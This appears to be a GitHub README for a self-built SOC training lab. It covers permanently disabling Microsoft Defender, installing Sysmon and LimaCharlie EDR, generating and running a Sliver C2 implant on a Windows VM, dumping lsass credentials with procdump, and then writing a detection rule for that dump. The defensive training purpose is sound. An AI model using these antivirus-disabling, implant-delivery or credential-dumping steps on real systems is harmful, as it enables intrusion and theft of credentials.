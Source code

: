 # SOC-MOCK
## Objective 
![Image](.png)
This project aimed to build a realistic Security Operations Center (SOC) training environment focusing on practical skills for detecting and responding to cyber threats.
- Advanced threat detection tools like Sysmon and LimaCharlie EDR were deployed for real-time analysis
- Adversary techniques were simulated, and threat responses were automated to stay ahead of potential risks
- YARA rules were integrated to enhance malware detection capabilities
<br><br>

## Components

- **VirtualBox**: Used for creating and managing virtual machines
- **Ubuntu Server VM**: Used to deploy the Sliver C2 framework, which acts as a simulated attacker tool
- **Windows VM**: Used as victim endpoint device
- **LimaCharlie EDR**: An EDR platform used to collect, analyze logs and investigate telemetry from the Windows VM
- **Sliver C2**: A simulated attacker tool used to create a Command & Control (C2) server on the Ubuntu VM
- **YARA Rules**: Specific sets of instructions used to identify malware based on patterns
- **Sysmon**: Windows system service used to monitor and log system activity to the event log
- **VirusTotal**: A service for analyzing suspicious files and URLs for malware
- **NAT Network**: Configured in VirtualBox for network simulation

<details>
  <summary><h2><b>Section 1: Setting up the Virtual Environment</b></h2></summary>
  This section will guide through the setup of virtual environment using VirtualBox (If you want you, can use VMware as well). Configure a NAT network and install two virtual machines – one for Ubuntu Server and another for a Windows 10. <br><br>

   **Step 1: Download and setup Virtualbox**:  
    You can download Virtualbox from here. Setup is pretty straightforward
    <br><br>
   **Step 2: Create a New VM for Windows 10**:  
   Next, set up a new virtual machine in VirtualBox for Windows 10.
  - **Create it with following minimum specs:**
   - RAM: Approx 2 GB
   - Processors: 2 CPU cores
   - Hard Disk Storage: 50 GB
    <br><br>
    
   **Step 3: Create a New VM for Ubuntu Server**:  
    Now, set up a new virtual machine in VirtualBox for Ubuntu Server.
  - **Create it with following minimum specs:**
   - RAM: Approx 2 GB
   - Processors: 2 CPU cores
   - Hard Disk Storage: 20 GB
   - During OS install, **leave defaults as is**
  ![Image](https://imgur.com/GDfOZmg.png)
    <br><br>
  - After installation it should look like this:
  ![Image](https://imgur.com/9VNGxVp.png)
    <br><br>
       
   **Step 4: Configure Windows VM**:  
    Permanently disable Microsoft Defender so it doesn’t interfere with the fun stuff we’re planning. This is pretty tricky (especially in Windows 11) as Defender will turn itself back on.
1. Disable Tamper Protection
  - Go to "Windows Security"
  - Click “Virus & threat protection”
  - Under “Virus & threat protection settings” click “Manage settings”
  - Toggle OFF the “Tamper Protection” switch. When prompted, click “Yes”
![Image](https://imgur.com/iTuPTwi.png)
  - Toggle every other option OFF as well
2. Permanently Disable Defender via Group Policy Editor
  - Click the “Start” menu icon
  - Type “cmd” into the search bar within the Start Menu
  - Right+Click “Command Prompt” and click “Run as administrator”
  - Run the following command
```
gpedit.msc
```
  - Inside the Local Group Policy Editor
  - Click Computer Configuration > Administrative Templates > Windows Components > Microsoft Defender Antivirus
  - Double-click “Turn off Microsoft Defender Antivirus”
  - Select “Enabled” (If you enable this policy setting, Defender doesn't run, and will not scan for malware or other potentially unwanted software)
  - Click "Apply"
![Image](https://imgur.com/9bsP5Lf.png)
3. Permanently Disable Defender via Registry
  - From the same administrative cmd, copy/paste this command and press Enter
<br>

```
REG ADD "hklm\software\policies\microsoft\windows defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
```

</br>

4. Prepare to boot into Safe Mode to disable all Defender services
  - Click the “Start” menu icon
  - Type “msconfig” into the search bar
  - Go to “Boot” tab and select “Boot Options”
  - Check the box for “Safe boot” and “Minimal”
![Image](https://imgur.com/0K1OBWq.png)
  - Click Apply and OK
  - System will restart into Safe Mode

5. Now, in Safe Mode, we’ll disable some services via the Registry
  - Press the “Win + R"
  - Type “regedit” into the search bar and hit Enter
  - For each of the following registry locations, browse to the key, find the “Start” value, and change it to "4"
![Image](https://imgur.com/IWskQZt.png)
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Sense
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdBoot
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WinDefend
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdNisDrv
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdNisSvc
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdFilter

6. Leave Safe Mode the same way we got into it
  - Uncheck the box for “Safe boot”
  - System will restart into normal desktop environment, hopefully Defender-free
    <br><br>
</details>

<details>
  <summary><h2><b>Section 2: Install Sysmon in Windows VM</b></h2></summary>

This is actually optional in this project, but it’s a must-have analyst tool for getting very granular telemetry on your Windows endpoint. You can read more about it
[here](https://www.learn.microsoft.com/en-us/sysinternals/downloads/sysmon/). 

1. **Launch an Administrative PowerShell console for the following commands:**

- Click the “Start” menu icon
- Type “Powershell” into the search bar within the Start Menu
- Click “Windows PowerShell” and click “Run as administrator”

2. **Download Sysmon with the following command:**
```
Invoke-WebRequest -Uri https://download.sysinternals.com/files/Sysmon.zip -OutFile C:\Windows\Temp\Sysmon.zip
```
3. **Unzip sysmon.zip**
```
Expand-Archive -LiteralPath C:\Windows\Temp\Sysmon.zip -DestinationPath C:\Windows\Temp\Sysmon
```
4. **Download SwiftOnSecurity’s Sysmon config**
```
Invoke-WebRequest -Uri https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml -OutFile C:\Windows\Temp\Sysmon\sysmonconfig.xml
```
5. **Install Sysmon with Swift’s config**
```
C:\Windows\Temp\Sysmon\Sysmon64.exe -accepteula -i C:\Windows\Temp\Sysmon\sysmonconfig.xml
```
![Image](https://imgur.com/eUuEwgD.png)

6. **Check Sysmon64 service is installed and running**
```
Get-Service sysmon64
```
7. **Check for the presence of Sysmon Event Logs**
```
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" -MaxEvents 10
```
  <br><br>
</details>

<details>
  <summary><h2><b>Section 3: Install LimaCharlie EDR on Windows VM</b></h2></summary>

  [LimaCharlie](https://www.limacharlie.io/) 
  is a very powerful SecOps Cloud Platform. It not only comes with a cross-platform EDR agent, but also handles all of the log shipping/ingestion and has a threat detection engine. In free version you can create for up to two systems which is great for projects like this.

1. **Create a free LimaCharlie account**
- LimaCharlie will ask you a few questions about your role. Answer however you like.

2. **Create an organization**

Name: *Anything*

Data Residency Region: *Closest to you*

Demo Configuration Enabled: *Disabled*

Template: *Extended Detection & Response Standard*
![Image](https://imgur.com/T1INyuQ.png)

3. **Click "Add a Sensor"**

- Select Windows
- Provide a description such as: Windows VM - Lab
- Click Create
- Select the Installation Key we just created
![Image](https://imgur.com/ba1VqUg.png)
- Select the "x86-64 (.exe)" sensor
![Image](https://imgur.com/mP2CI8j.png)



- In Windows VM, open an Administrative PowerShell and paste the following commands:
```
cd C:\Users\User\Downloads
```
```
Invoke-WebRequest -Uri https://downloads.limacharlie.io/sensor/windows/64 -Outfile C:\Users\User\Downloads\lc_sensor.exe
```
![Image](https://imgur.com/LGFmfRt.png)
- Shift into a standard admin cmd

- Copy the install command provided by LimaCharlie which contains the installation key. Paste this command into your open terminal.
![Image](https://imgur.com/D0UvIR4.png)

- If everything worked correctly, in the LimaCharlie web UI you should see the sensor reporting in


4. **Configure LimaCharlie to also ship the Sysmon event logs alongside its own EDR telemetry**

- In the left-side menu, click “Artifact Collection”
- Next to “Artifact Collection Rules” click “Add Rule”
```
Name: windows-sysmon-logs
Platforms: Windows
Path Pattern: wel://Microsoft-Windows-Sysmon/Operational:*
Retention Period: 10
```
- Click “Save Rule”
![Image](https://imgur.com/VgxX27Q.png)

LimaCharlie will now start shipping Sysmon logs which provide a wealth of EDR-like telemetry, some of which is redundant to LC’s own telemetry, but Sysmon is still a very power visibility tool that runs well alongside any EDR agent.

The other reason we are ingesting Sysmon logs is that the built-in Sigma rules we previously enabled largely depend on Sysmon logs as that is what most of them were written for.

> Now would be a good time to Snapshot your Windows VM
</details>

<details>
  <summary><h2><b>Section 4: Setup Attack System </b></h2></summary>
  I recommend using an SSH client to access the Ubuntu VM so that you can easily copy/paste commands.

1. **Open your CLI**

```
ssh username@[Linux_VM_IP]
```

2. **Now, from within this new SSH session, proceed with the following instructions to setup our attacker C2 server. First, gain access to the root shell to make life easier.**

```
sudo su
```

3. **Run the following commands to download Sliver, a Command & Control (C2) framework by BishopFox. I recommend copy/pasting the entire block as there is line-wrapping occurring.**

- Download Sliver Linux server binary
```
wget https://github.com/BishopFox/sliver/releases/download/v1.5.34/sliver-server_linux -O /usr/local/bin/sliver-server
```
- Make it executable
```
chmod +x /usr/local/bin/sliver-server
```
- install mingw-w64 for additional capabilities
```
apt install -y mingw-w64
```
- Create our future working directory
```
mkdir -p /opt/sliver
```
![Image](https://imgur.com/LCfhKok.png)

> Explore the LimaCharlie web interface to learn more about what it can do!
</details>
<details>
  <summary><h2><b>Section 5: Generate the Command & Control payload </b></h2></summary>
  Either from your SSH session or directly from your Ubuntu Server, take the following actions:
  <br></br>

  1. **Access root shell and change dir to Sliver install**

```
sudo su
cd /opt/sliver
```

  2. **Launch Sliver server**

```
sliver-server
```
![Image](https://imgur.com/8DsuXyT.png)
  3. **Generate C2 session payload. Use your Linux VM’s IP address**
```
generate --http [Linux_VM_IP] --save /opt/sliver
```
![Image](https://imgur.com/EN108X6.png)
  4. **Confirm the new implant configuration**
```
implants
```
  5. **Now we have a C2 payload we can drop onto our Windows VM. Exit Sliver for now.**
```
exit
```

  6. **To easily download the C2 payload from the Linux VM to the Windows VM, use this python trick that spins up a temp web server**
```
cd /opt/sliver
python3 -m http.server 80
```
![Image](https://imgur.com/gQG90re.png)
  7. **Switch to the Windows VM and launch an Admin PowerShell console to download the implant from Ubuntu server**
```
IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe
```
![Image](https://imgur.com/iU5lry0.png)
> Now would be a good time to snapshot your Windows VM, before we execute the malware.

</details>
<details>
  <summary><h2><b>Section 6: Start Command & Control Session  </b></h2></summary>

1. **Now that the payload is on the Windows VM, switch back to the Linux VM SSH session and enable the Sliver HTTP server to catch the callback**

- Terminate the python web server by pressing "Ctrl + C"
- Now, relaunch Sliver
```
sliver-server
```
- Start the Sliver HTTP listener
```
http
```
![Image](https://imgur.com/2RqMkmX.png)
- If you get an error starting the HTTP listener, reboot the VM

2. **Return to the Windows VM and execute the C2 payload from its download location using the same admin PowerShell prompt**
```
C:\Users\User\Downloads\<your_C2-implant>.exe
```
![Image](https://imgur.com/N8Z5Xo1.png)
3. **Within a few moments, you should see your session check in on the Sliver server**
![Image](https://imgur.com/1Rs38Xn.png)
4. **Verify your session in Sliver, and note its Session ID**
```
sessions
```
5. **To interact with your new C2 session, type the following command into the Sliver shell**
```
use [session_id]
```

> c0ngratulations! you pwned your Windows VM
6. **Now, run a few basic commands**

- To get info about the session
```
info
```
- Find out the user and learn his privileges
```
whoami
```
![Image](https://imgur.com/IO9bJZi.png)
```
getprivs
```
![Image](https://imgur.com/Krpmh17.png)
> If your implant was properly run with Admin rights, you’ll notice you have a few privileges that make further attack activity much easier, such as “SeDebugPrivilege” — if you don't see these privileges, make sure you ran the implant from an Admin command prompt
- Identify implant’s working dir
```
pwd
```
- Examine network connections occurring on the remote system
```
netstat
```
- Identify running processes on the remote system
```
ps -T
```
![Image](https://imgur.com/AIMklUP.png)
> Notice that Sliver highlights its own process in green and any defensive tools in red. This is how attackers become aware of what security products a victim system using.
  </details>

<details>
  <summary><h2><b>Section 7: Observe EDR Telemetry</b></h2></summary>

1. **Hop into the LimaCharlie web UI and check out some basic features**

- Click “Sensors” on left menu

- Click your active Windows sensor


- On the new left-side menu for this sensor, click “Processes”


> Explore what is returned in the process tree. Hover over some of the icons to see what they represent

![Image](https://imgur.com/GZ9FZm0.png)
Knowing common processes on a system is very important. As professionals say at SANS, *“you must know normal before you can find evil”* Check out this [“Hunt Evil”](https://www.sans.org/posters/hunt-evil/) poster from SANS.


2. **One of the easiest ways to spot unusual processes is to simply look for ones that are NOT signed**
- The C2 implant shows as not signed, and is also active on the network.

![Image](https://imgur.com/2frmDNQ.png)

- Notice how quickly we are able to identify the destination IP this process is communicating with.

3. **Now click the “Network” tab on the left-side menu**

- Explore what is returned in the network list. "Ctrl+F" to search for your implant name

4. **Now click the “File System” tab on the left-side menu**

- Browse to the location we know our implant to be running from

![Image](assets/3.gif)

5. **Inspect the hash of the suspicious executable by scanning it with VirusTotal**

> “*Item not found*” on VirusTotal doesn't mean that this file is innocent, it just might not that scanned before. This makes sense because you just generated this payload, so of course it’s not likely to be seen by VirusTotal before. So, if you already suspect a file to be possible malware, but VirusTotal has never seen it before, trust your instincts. This actually makes a file even more suspicious because nearly everything has been seen by VirusTotal, so your sample may have been custom-crafted/targeted.

6. **Click “Timeline” on the left-side menu of our sensor. This is a real-time view of EDR telemetry + event logs streaming from this system**

- Read about the various EDR events in the LimaCharlie docs.

- Filter your timeline with known IOCs (indicators of compromise) such as the name of your implant or the known C2 IP address

- If you scroll back far enough, should be able to find the moment your implant was created on the system, and when it was launched shortly after, and the network connections it created immediately after

![Image](https://imgur.com/pV7Z8qm.png)

7. **Examine the other events related to your implant process** 

- you’ll see it is responsible for other events such as “SENSITIVE_PROCESS_ACCESS” from when you enumerated your privileges in an earlier step. This particular event will be useful later on when you will craft your first detection rule

> I recommend spending more time exploring LimaCharlie telemetry to familiarize yourself not only with the known-bad events, but also the abundance of “normal” things happening on your “idle” Windows VM.

  </details>

<details>
  <summary><h2><b>Section 8: Wear the Black Hat  </b></h2></summary>

Go back into Sliver C2 session and do some shady stuff that you would be able to detect.

1. **Drop into a C2 session on your victim**

2. **Run the following commands within the Sliver session on your victim host**

- First, we need to check our privileges to make sure we can perform privileged actions on the host
```
getprivs
```
- A powerful command to check privilege for *SeDebugPrivilege* which opens the door for many things. If you’ve got that, we’re good. If you don’t, you need to relaunch your C2 implant with administrative rights

- Next, do something adversaries love to do for stealing credentials on a system — *dump the lsass.exe process from memory.* Read more about this technique [here](https://www.microsoft.com/en-us/security/blog/2022/10/05/detecting-and-preventing-lsass-credential-dumping-attacks/)
```
procdump -n lsass.exe -s lsass.dmp
```
This will dump the remote process from memory, and save it locally on your Sliver C2 server.

> NOTE: This will fail if you did not launch your C2 payload with admin rights on the Windows system. Even if it fails it will generate telemetry need.

2. **Now Let’s Detect It**

Now, switch over to LimaCharlie to find the relevant telemetry

- Since *lsass.exe* is a known sensitive process often targeted by credential dumping tools, any good EDR will generate events for this

- Go to "Timeline" of your Windows VM sensor and use the “Event Type Filters” to filter for “SENSITIVE_PROCESS_ACCESS” events.
There will likely be many of these, but pick any one of them as there isn’t much else on this system that will be legitimately accessing "lsass"
![Image](https://imgur.com/Su8gSsG.png)


- Now that we know what the event looks like when credential access occurred, we have what we need to craft a detection & response (D&R) rule that would alert anytime this activity occurs
![Image](https://imgur.com/mNWqOEt.png)
- Click the button in the screenshot to begin building a detection rule based on this event

- In the “Detect” section of the new rule, remove all contents and replace them with this
```
event: SENSITIVE_PROCESS_ACCESS
op: ends with
path: event/*/TARGET/FILE_PATH
value: lsass.exe
```
![Image](https://imgur.com/oxRKaBy.png)
- We’re specifying that this detection should only look at *"SENSITIVE_PROCESS_ACCESS"* events where the victim or target process ends with "lsass.exe"

- In the “Respond” section of the new rule, remove all contents and replace them with this
```
action: report
name: LSASS access
```
- We’re telling LimaCharlie to simply generate a detection “report” anytime this detection occurs. We could ultimately tell this rule to do all sorts of things, like terminate process chain, etc.

- Now let’s test our rule against the event we built it for. Lucky for us, LimaCharlie carried over that event it provides a quick and easy way to test the D&R logic. Click “Target Event” below the D&R rule you just wrote. Here you will see the raw event we observed in the timeline earlier

- Scroll to the bottom of the raw event and click “Test Event” to see if our detection would work against this event.
![Image](https://imgur.com/W00C0rY.png)
- Notice that we have a “Match” and the D&R engine tells you exactly what it matched on.
![Image](https://imgur.com/mM1Vae5.png)

- Scroll back up and click “Save Rule” and give it the name “LSASS Accessed” and be sure it is enabled

3. **Return to your Sliver server console, back into your C2 session, and rerun same *"procdump command"**

- After rerunning the procdump command, go to the “Detections” tab on the LimaCharlie main left-side menu.
![Image](https://imgur.com/buIAvmX.png)

> Congratulations! You’ve just detected a threat with your own detection signature! Expand a detection to see the raw event

![Image](https://imgur.com/FZFn6xt.png)

- Notice you can also go straight to the timeline where this event occurred by clicking “View Event Timeline” from the Detection entry
  </details>


  <details>
  <summary><h2><b>Section :  </b></h2></summary>

  </details>